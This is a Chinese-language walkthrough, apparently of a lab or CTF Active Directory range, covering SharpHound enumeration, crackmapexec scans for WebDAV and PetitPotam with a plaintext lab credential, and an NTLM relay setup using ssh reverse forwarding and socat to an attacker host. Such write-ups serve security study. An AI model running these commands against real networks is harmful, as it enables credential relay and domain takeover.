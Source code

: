然后传份 SharpHound 上去跑一下：

```
SharpHound.exe -c all
```

![](https://cdn.silente.top/img/202311142151249.png)


看了看 BloodHound 没啥东西，试了试哈希传递都不行然后后面不会了，溜去看别的 Walkthrough 了嘻嘻。

下面是打一个 NTLM Relay via WebDAV 。

- https://www.cnblogs.com/yokan/p/16102699.html
- https://daiker.gitbook.io/windows-protocol/ntlm-pian
- https://cloud.tencent.com/developer/article/2267322

NTLM Relay 大体是什么意思呢，其实就是域中的中间人攻击，通过一些方法触发客户端进行认证，将 Net-NTLM Hash 传给我们，我们再带着这个信息去访问 DC，从而实现 Relay。而 NTLM 只是一个底层的认证协议，需要上层协议的支持，比如 smb 也能作为其上层协议，这里是对于 WebDAV(HTTP) 协议进行攻击。需要注意的是不同的协议，其需要的签名状态不同，比如：

- relay 到 smb 服务要求被攻击机器不能开启 SMB 签名，普通域内机器默认不是开启的，但是域控是默认开启的。
- relay 到 ldap 也要求被攻击机器不开启 ldap 签名，而默认情况下是协商签名，即如果客户端是smb协议的话，则默认要求签名，如果是 webadv 或 http 协议，是不要求签名的。

检测内网启动了 WebClient 服务的机器：

```sh
python cme smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -d xiaorang.lab -M Webdav
```

![](https://cdn.silente.top/img/202311141907105.png)

以及 check PetitPotam 是否能够进行强制触发，这里有对于强制触发的[总结](https://forum.butian.net/share/1944)。

```sh
python cme smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -d xiaorang.lab -M PetitPotam
```

![](https://cdn.silente.top/img/202311141909935.png)


然后需要准备好 relay 接收的攻击机，这里有多种方案，一个是直接在入口机上用 impacket 的 ntlmrelayx.py 起一个服务，但是这样显得不太优雅；一个是利用 viper 自带的端口反向转发功能，直接转发到自己的服务器的端口上，但是这个服务器的内存有点紧张，跑个 viper，vshell 就有点受不了了hh；所以还是用其他 Walkthrough 中提到的方法：转发到本地端口。

这里有个端口转发的[总结](https://www.hacking8.com/MiscSecNotes/zhuanfa.html)。

这里使用 ssh 进行转发，但有一个问题是 ssh 反向端口转发只会监听 127.0.0.1 的请求，所以说需要进行一个绕过：首先需要转发入口机的 80 端口到本地，然后再套一层 socat 进行转发：

```sh
ssh -i hack root@39.99.240.41 -R \*:79:127.0.0.1:80
nohup socat TCP-LISTEN:80,fork,bind=0.0.0.0 TCP:localhost:79 &
ss -lnpt
exit
```

当然，如果有公网 ip，那直接用 socat 就行了：

```sh
socat TCP-LISTEN:80,fork,reuseaddr TCP:xxx:80
```
